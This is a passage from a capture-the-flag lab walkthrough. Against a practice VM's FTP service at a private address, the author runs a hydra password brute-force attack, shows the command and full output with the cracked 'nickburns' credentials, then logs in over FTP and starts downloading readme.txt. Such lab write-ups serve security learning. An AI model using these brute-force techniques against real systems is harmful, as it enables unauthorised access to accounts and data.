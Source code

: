 * The FTP server would starts on the hour and runs for 15 minutes. After that it would turn off for 15 minutes, and turn back on 15 minutes later. This explained the odd behaviour I was seeing with the FTP server. 
* The FTP login was nickburns with an obvious password. 
* Big Tom's account on the blog wasn't called Big Tom, but something else. 

Ok, I waited untilt he FTP server was back online before I ran a brute force attack on it: 

```
# hydra -l nickburns -P ~/Desktop/wordlists/top500.txt -s 65534 -e nsr -VV -o hydra.ftp ftp://172.16.146.141
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-09-06 01:01:09
[DATA] max 16 tasks per 1 server, overall 64 tasks, 503 login tries (l:1/p:503), ~0 tries per task
[DATA] attacking service ftp on port 65534
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "nickburns" - 1 of 503 [child 0]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "" - 2 of 503 [child 1]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "snrubkcin" - 3 of 503 [child 2]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "123456" - 4 of 503 [child 3]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "password" - 5 of 503 [child 4]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "12345678" - 6 of 503 [child 5]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "1234" - 7 of 503 [child 6]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "pussy" - 8 of 503 [child 7]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "12345" - 9 of 503 [child 8]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "dragon" - 10 of 503 [child 9]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "qwerty" - 11 of 503 [child 10]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "696969" - 12 of 503 [child 11]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "mustang" - 13 of 503 [child 12]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "letmein" - 14 of 503 [child 13]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "baseball" - 15 of 503 [child 14]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "master" - 16 of 503 [child 15]
[ATTEMPT] target 172.16.146.141 - login "nickburns" - pass "michael" - 17 of 503 [child 5]
[65534][ftp] host: 172.16.146.141   login: nickburns   password: nickburns
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2016-09-06 01:01:10
```

Well, it turned out I didn't need a wordlist after all since the password was the same as the username. Finally, I could log in to the FTP server:

```
# ftp 172.16.146.141 65534
Connected to 172.16.146.141.
220 Callahan_FTP_Server 1.3.5
Name (172.16.146.141:root): nickburns
331 Password required for nickburns
Password:
230 User nickburns logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-x---   4 nickburns nickburns     4096 Jul 20 20:42 .
drwxr-x---   4 nickburns nickburns     4096 Jul 20 20:42 ..
-rw-r--r--   1 root     root            0 Jul 21 22:47 .bash_history
drwx------   2 nickburns nickburns     4096 Jul  6 22:37 .cache
drwxrwxr-x   2 nickburns nickburns     4096 Jul  6 22:37 .nano
-rw-rw-r--   1 nickburns nickburns      977 Jul 15 02:37 readme.txt
226 Transfer complete
ftp> get readme.txt
local: readme.txt remote: readme.txt
200 PORT command successful
150 Opening BINARY mode data connection for readme.txt (977 bytes)
```